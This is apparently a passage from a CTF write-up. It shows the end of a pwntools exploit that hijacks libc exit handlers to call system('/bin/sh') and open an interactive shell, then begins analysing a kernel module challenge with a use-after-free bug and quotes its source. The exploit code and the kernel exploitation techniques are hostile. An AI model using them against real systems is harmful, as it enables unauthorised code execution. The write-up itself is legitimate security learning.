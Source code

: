 ```py
p.sendline(str(rol(libc.sym.system ^ ptr_guard, 0x11, 64)).encode())

p.sendline(b"3")
p.sendline(str(exit_funcs_arg_0).encode())
p.sendline(str(next(libc.search(b"/bin/sh\0"))).encode())

p.sendline(b"3")
p.sendline(str(exit_funcs_arg_1).encode())
p.sendline(b"0")

p.interactive()
```

![Flag](@images/2024/lnc-2024/lucky-plaza.png)

# Cheminventory

> Storing explosive chemicals in the kernel is a wonderful idea! Surely nothing can go wrong...right?
> 
> Author: Kaligula

[Source](https://github.com/Lag-and-Crash/2024/tree/main/challenges/pwn/Cheminventory)

This was my favourite challenge in the entire CTF because it's kernel pwn. I didn't solve it during the CTF sadly, but I
got until past cross-cache (with `msg_msg` in my UAF object). I didn't know enough kernel pwn tricks to proceed after
that, and was looking for some arb write with `msgmsg_seg` and race condition to overwrite `modprobe_path` (after
checking, the kernel disables `mobprobe_path` technique so it wouldn't work anyway).

Also, this is my first time doing kernel pwn, so I'll try to be super detailed in my writeup here :)

## Analysis

Initially, source wasn't given out and I had a hard time reversing the module, cos of a few weird artifacts in the
decompilation. After source was released, I quickly found the UAF bug. The full source is available in the repo, I'll
just analyse the important bits here.

### DO_CREATE

```c
case DO_CREATE: {           
    if (user_data.note_size > 100 || user_data.note_size == 0) {
        pr_info("A chemical explosion occurred. Oh no!\n");
        mutex_unlock(&chem_mutex);
        return -1;
    }
    
    chem = kmalloc(sizeof(struct chemical), GFP_KERNEL); 
    
    // Quantity
        chem->quantity = user_data.quantity;
    
    // CAS
        chem->cas = user_data.cas;
    
    // idx
        chem->idx = chemical_count; 
    chemical_count = chemical_count +1;
```